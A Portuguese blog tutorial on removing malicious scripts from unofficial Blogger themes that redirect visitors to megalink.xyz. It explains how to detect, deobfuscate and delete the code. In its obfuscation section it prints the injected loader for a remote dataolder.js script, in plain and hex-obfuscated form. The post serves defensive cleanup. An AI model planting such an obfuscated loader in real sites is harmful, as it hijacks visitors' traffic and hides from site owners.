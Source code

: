 ```yaml
---
title: Blogger redirecionando para o megalink.xyz
date: 2023-07-02
author: M4rQu1Nh0S
tags: [blogger, redirecionando, sozinho, megalink.xyz, automaticamente]
subtitle: Saiba como resolver esse redirecionamento indesejado
category: [Dicas e tutoriais, Blogger]
comments: true
#cover-img: /assets/img/path.jpg
thumbnail-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
share-img: https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png
layout: post
---
```


![](https://cdn-images-1.medium.com/max/800/0*z0w7bAMjSkAMnzZr.png)<br/>
Um problema que pode acontecer ao utilizar temas não oficiais do blogger, alguns temas possuem códigos que ocasionalmente faz com que as visitas no seu blog sejam automaticamente redirecionadas para um outro site. Tal problema que comecei a ter recentemente em um template do blogger que já vinha utilizando a muito tempo atrás.

Enfim, indo direto ao ponto, no meu caso o problema foi causado por 2 scripts que estavam no html do blog

	//commentid.com/dataolder.js

e

	//blogpager.com/dataolder.js

Na grande maioria das vezes, com esses dois scripts, seu blog é redirecionado para o site https:// **link.megalink.xyz**]

Portanto basta editar o código html do blogger e remover todas as linhas que contem esse **dataolder.js**

**Conteúdo**

1. [Pode acontecer desse script estar “disfarçado” no html](#4762)
2. [“DesOfuscando” um código](#88b3)
3. [Como encontrar o script no html do blogger](#3a0a)
4. [Usando o debugger do browser para diagnóstico](#c33c)
5. [Observações sobre o problema](#e4d0)

## Pode acontecer desse script estar “disfarçado” no html
Existe uma espécie de codificação em linguagens de programação que “disfarçam” que podemos chamar de **ofuscador**.

O Ofuscador faz com que um código como esse:

```
<script type='text/javascript'>
_wau.push(["small", "00wy9zw057rt", "pd4"]);
(function () {
  var rahja = document.createElement("script");
  rahja.async = true;
  rahja.src = "//blogpager.com/dataolder.js";
  document.getElementsByTagName("head")[0].appendChild(rahja);
}());
</script>
```

Após ofuscado, o código fica assim:

```
<script type='text/javascript'>
var _0x603d=["\x73\x6D\x61\x6C\x6C","\x30\x30\x77\x79\x39\x7A\x77\x30\x35\x37\x72\x74","\x70\x64\x34","\x70\x75\x73\x68","\x73\x63\x72\x69\x70\x74","\x63\x72\x65\x61\x74\x65\x45\x6C\x65\x6D\x65\x6E\x74","\x61\x73\x79\x6E\x63","\x73\x72\x63","\x2F\x2F\x62\x6C\x6F\x67\x70\x61\x67\x65\x72\x2E\x63\x6F\x6D\x2F\x64\x61\x74\x61\x6F\x6C\x64\x65\x72\x2E\x6A\x73","\x61\x70\x70\x65\x6E\x64\x43\x68\x69\x6C\x64","\x68\x65\x61\x64","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x54\x61\x67\x4E\x61\x6D\x65"];var _wau=_wau|| [];_wau[_0x603d[3]]([_0x603d[0],_0x603d[1],_0x603d[2]]);(function(){var _0xcefcx2=document[_0x603d[5]](_0x603d[4]);_0xcefcx2[_0x603d[6]]= true;_0xcefcx2[_0x603d[7]]= _0x603d[8];document[_0x603d[11]](_0x603d[10])[0][_0x603d[9]](_0xcefcx2)})()
</script>
```

Uma vez que o código esteja ofuscado, você não vai conseguir encontrar o script e daí não conseguirá acabar com a fonte dos redirecionamentos.

## “DesOfuscando” um código

Felizmente existem ferramentas que ajudam a desofuscar, pelo menos parcialmente, um código que está ofuscado.

Vou recomendar alguns exemplos abaixo:

-   [**https://www.seosniffer.com/javascript-deobfuscator**](https://www.seosniffer.com/javascript-deobfuscator)
-   [https://deo.sigr.io/](https://deo.sigr.io/)
-   [https://www.dcode.fr/javascript-unobfuscator](https://www.dcode.fr/javascript-unobfuscator)
-   [https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii](https://coderstoolbox.net/string/#!encoding=xml&action=decode&charset=us_ascii)
    (para traduzir alguns caracteres xml para html e daí desofuscar)

## Como encontrar o script no html do blogger
Agora que já expliquei como identificar um código ofuscado e também ja falei que o script que faz os redirecionamentos (dataolder.js), basta editar o html do blogger.

Abra o painel do blogger e vá nas opções de editar o html, e então use o Ctrl + F e procure por:

	<script type='text/javascript'>

No meio dos resultados você vai encontrar alguns códigos ofuscados, basta pega-los e desofusca-los e observar se tem algo no meio desse código alguma função de redirecionamento.

Ao encontrar basta remover, mas atenção, nem todo código ofuscado vai ter um script de redirecionamento! Alguns autores ofuscam o código para proteger o seu tema de plágio e por isso alguns códigos ofuscados podem apenas conter funções especificas do tema, como animações, estilos de fontes e cores, etc.

## Usando o debugger do browser para diagnóstico.
Todo browser ou a maioria tem as ferramentas de desenvolvedor, no caso do Chrome ele aparece ao pressionar **F12**.

Dá pra usar essa ferramenta para ajudar a encontrar a fonte dos redirecionamentos que está acontecendo no seu blogger.

Basta apertar F12 e seguir os procedimentos:

- Habilitar a visualização mobile
- Na opção **Network**, marcar as opções **Preserve Log** e **Block Requests**
- Na lista **Name** vai haver várias solicitações, ao clicar em uma da lista, observe a guia **Initiator**, ela informa em qual parte do site saiu a solicitação, que no caso é de redirecionamento.

![](https://cdn-images-1.medium.com/max/800/1*vK9hdmPcOOm8Z-3bnHtzbA.png)

## Observações sobre o problema
Curiosamente esse tipo de problema acontece principalmente quando o blog é aberto por um browser mobile ou em modo mobile, em modo computador o redirecionamento não acontece todas as vezes.

Pelo visto os scripts de redirecionamento foram programas para atuarem com mais tendencia em celulares, por tanto quando for investigar as fontes do redirecionamento que está acontecendo no seu blog, experimente faze-lo com o blog aberto em modo mobile.

